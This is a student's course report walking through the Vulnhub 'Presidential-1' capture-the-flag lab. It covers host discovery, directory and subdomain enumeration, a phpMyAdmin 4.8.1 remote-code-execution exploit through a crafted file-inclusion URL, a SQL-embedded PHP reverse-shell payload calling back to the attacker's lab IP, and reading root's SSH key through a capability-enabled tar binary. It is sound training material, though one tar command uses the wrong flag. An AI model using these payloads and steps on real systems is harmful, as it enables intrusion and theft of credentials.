



# Report Presidential Hacking
Cybersecurity Course - University of Trieste - Academic year 2023/2024

Simone Cossaro IN2000201

## Introduction

This report details the steps taken to solve the Vulnhub CTF (Capture the Flag) challenge known as Presidential-1.
Capture the Flag challenges are a cornerstone in the training and development of cybersecurity professionals. These competitions are designed to simulate real-world scenarios where participants must apply their knowledge and skills to solve security-related problems. 

In the scenario of Presidential-1, the U.S. state is developing a registration website for presidential elections and seeks to test the security of the server before launching the website and registration system. One political party is concerned that the opposing party might commit electoral fraud by hacking into the registration system and falsifying votes.

The objective of the challenge is to gain root access to the server.

The attack was conducted following the walkthrough available [here](https://www.hackingarticles.in/presidential-1-vulnhub-walkthrough/).

## Tools

VirtualBox is required for this challenge to run the following two virtual machines:
* the Presidential VM, available on Vulnhub [here](https://www.vulnhub.com/entry/presidential-1,500/)
* an attacking Kali Linux VM
  
Both virtual machines are connected to the same network with NAT.

## Recognition

The first step of the attack is reconnaissance. This phase involves using various techniques to actively or passively gather information that supports targeting. The information collected can include details about the victim's organization, infrastructure, and personnel. In this case, the objective is to identify the IP address of the target machine and the services running on it.

The shell command `netdiscover` automates the process of discovering live hosts on a network. It generates ARP requests for each IP address within a specified range. These requests are broadcasted to all devices on the local network, prompting devices with the corresponding IP addresses to respond with their MAC addresses. `netdiscover` collects these responses and records the IP and MAC address pairs, and it can also identify the device vendor. As a result, the output of `netdiscover` is a list of active hosts on the network.

From the vendor column in the obtained list, it is suggested that the potential target IP addresses could be 10.0.2.3 and 10.0.2.8. To determine which is the correct address, it is necessary to identify the active services on these addresses.
The `nmap` command is used to identify the services, open ports, and software versions on the machine at the indicated address. 

  

The scan reveals that the machine with the IP address 10.0.2.8 is running a web service on port 80 using the HTTP protocol and a remote shell on port 2082 using the SSH protocol. This machine is the presidential VM.

## Enumeration

Visiting the main page of the web service on port 80 and scrolling to the bottom reveals an email address (contact@votenow.local), providing the domain name: votenow.local. The domain name can be associated with the IP address by adding a line to the **`/etc/hosts`** file.

In this enumeration phase, Gobuster, a tool for scanning directories and files on web servers, is essential. It locates hidden or unadvertised resources on a web server, such as directories or files that may not be listed directly on a web page but are still accessible.

The Gobuster command specifies the file extensions to search for and the dictionary to use for brute force. Brute force in this context refers to systematically sending HTTP requests for each entry in the provided wordlist. Gobuster tries every word in the wordlist, such as potential directories, files, subdomains, etc., until it finds valid resources or exhausts the options.

  

Four accessible files were detected during the enumeration phase:

1. **`/index.html`**: this is the main page of the web server, which has already been visited.
2. **`/about.html`**: this page contains placeholder text ("lorem ipsum") and does not provide any useful information.
3. **`/config.php.bak`**: this file appears to be a backup of the `config.php` file and likely contains important configuration information. As seen from the response to the `curl` command, it contains user credentials, which could be useful later.
4. **`/config.php`**: this file is an empty PHP file, offering no additional information.

## Exploiting

Using Gobuster with the vhost option allows the discovery of subdomains. With the dictionary used (**`/dirbuster/wordlists/directory-list-2.3-medium.txt`**), a single subdomain was found: datasafe.votenow.local.

Navigating to the subdomain's web page reveals an access panel for "phpMyAdmin". By entering the previously obtained credentials, the login is successful. Once logged in, the interface allows direct interaction with a SQL database through the execution of queries. From this database, it is possible to retrieve the hash of an admin user's password.

The hash alone cannot be used, so John the Ripper, a password-cracking tool, is employed. Using the famous rockyou dictionary, the password corresponding to the hash is forced, revealing it to be "Stella".

Browsing the page further, it is noted, as it is written, that the version of phpMyAdmin is obsolete, listed as 4.8.1 while the latest stable version is 4.9.5.

Searchsploit, a tool for searching known exploits and vulnerabilities, reveals three vulnerabilities for this version, one of which allows remote code execution. 

Detailed information on how to exploit the RCE vulnerability is provided in response to the following searchsploit command:

`searchsploit -x /php/webapps/50457.py`

The exact same exploit is presented [here](https://www.exploit-db.com/exploits/50457).

As a first approximation the exploit steps in sequence are:
1) authenticate
2) obtain the phpMyAdmin cookie
3) execute a SQL query
4) accurately edit the URL and execute the payload.
   
Authentication was done with the credentials obtained previously.

The phpMyAdmin cookie can be obtained by inspecting the browser's developer tools to find the value of the cookie named phpMyAdmin.

Once authenticated it is possible to execute SQL queries on the databases present, so the point 3 can be easily done. The query must contain a php script within backticks, but in this stage it would not been executed. Under normal circumstances, the web application does not interpret or execute code placed within backticks in the SQL queries. However, by meticulously crafting the URL, it becomes possible to execute the script. This script embedded in the SQL query is the payload.

The URL must be edited to the following format:

`http://datasafe.votenow.local/index.php?target=db_sql.php%253f/../../../../../../../../var/lib/php/session/sess_{cookieVal}`

replacing `{cookieVal}` with the current session's cookie value.

By listening with a netcat listener on port 443 and injecting a SQL query like:

`select '<?php system("bash -i >& /dev/tcp/10.0.2.4/443 0>&1");?>'`

and structuring the URL as shown, the embedded script within the query is executed, establishing a reverse shell on the target machine.

The IP address **`10.0.2.4`** mentioned in the query is the Kali Linux machine's IP where the listener is active on port 443.

Following payload execution, a successful reverse shell is established. Authentication is accomplished using the previously obtained admin user credentials.

To acquire a more functional interactive shell compared to the initially obtained limited one, the following Python command is employed:
`python -c "import pty; pty.spawn('/bin/bash')"`

By utilizing the `ls` command to list files and directories, it becomes evident that direct access to the flag of **`user.txt`** and the file **`read.txt`** is achievable.

## Privilege Escalation

The last steps concern scaling privileges in order to gain root access.
The next thing to do is use `getcap` command to list the available capabilities associated with files in the file system.  

It is noted that the tarS binary has '+ep' set. This setting grants the `cap_dac_read_search` capability, allowing tarS to read and search files in locations where it has DAC (Discretionary Access Control) permissions, without requiring full root privileges. Thus, tarS can compress files across the system without root access. Once compressed, files contents can be revealed by simply performing the decompression.

The **`/root/.ssh/`** directory contains an **`id_rsa`** file, which typically holds an RSA private key for SSH authentication.
By using tarS to compress and decompress **`id_rsa`**, become possible to view its contents.

Compression and decompression are done by the two following commands:

* `tarS -xvf id_rsa.tar /root/.ssh/id_rsa` : creates a tar archive called **`id_rsa.tar`** containing the **`id_rsa`** file present in the **`/root/.ssh/`** directory.

* `tar -xvf id_rsa.tar` : extracts files from the **`id_rsa.tar`** archive.

After the execution of these two commands, the **`id_rsa`** file can be read.

With the RSA private key, remote connection to the presidential machine as root via SSH protocol is possible.

Once arrived at this point, the final-flag can be obtained and this completes the challenge.

